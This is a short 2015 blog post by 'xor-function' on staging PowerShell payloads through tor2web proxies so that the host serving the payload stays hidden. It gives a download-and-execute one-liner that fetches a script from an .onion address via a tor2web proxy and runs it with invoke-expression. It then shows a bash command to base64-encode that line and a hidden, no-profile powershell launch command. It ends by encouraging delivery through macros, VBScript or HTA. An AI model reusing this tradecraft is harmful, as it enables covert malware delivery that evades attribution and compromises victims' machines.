

|| Using Tor2web proxies to fetch your Powershell scripts, author: xor-function || 10/08/2015 || Back to main
I have been experimenting with tor2web proxies since they have come into existence. Many of them have a
disclaimer that is no different from the TOS agreement one must accept when using a public wifi access
point to get in.
At most there is a cookie with a dynamic value that is generated, which can be accepted by a
DOM parser (mojolicious). Most commonly it is just a static value that can be passed with a html
header although some tor2web sites have a less restrictive policy since they know the former methods
can be bypass and automatically forward request to .onion sites.
The gist is to host any powershell script on a hidden service then load them via an invoke-expression
using a tor2web proxy onion domain. This allows one to remove the need to hard code a relevant domain
or ip address to the initial stager by using tor without having to have a tor client installed on
a target system.
This seems promising since there are many tor proxies like this that are growing in number due to
there perceived need.
So the example for this command would be:
iex ((new-object net.webclient).downloadstring('http://8lanqzx6yvakcwbo.onion.torproxydomain/payload'))
Which torproxydomain is replaced with the respective tor2web proxy domain.
To encode this in a bash shell use the following command:
[ echo -n 'iex ((new-object net.webclient).downloadstring('\''http://8lanqzx6yvakcwbo.onion.torproxydomain/payload'\''))'
| iconv -f UTF-8 -t UTF16LE | base64 -w 0 ]
Use the encoded output for:
powershell.exe -w hidden -nop -noni -enc < encoded command string >
This can be can be executed by many different mechanisms vbscript, vba macro, hta etc...
be creative...
